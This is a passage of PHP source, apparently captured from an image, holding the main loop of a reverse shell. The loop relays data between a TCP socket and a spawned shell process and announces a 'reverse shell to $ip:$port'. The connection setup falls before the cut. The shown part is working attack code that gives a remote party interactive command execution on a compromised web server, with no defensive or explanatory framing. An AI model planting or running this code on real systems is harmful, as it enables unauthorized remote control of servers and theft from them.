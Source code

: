 ```php
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
```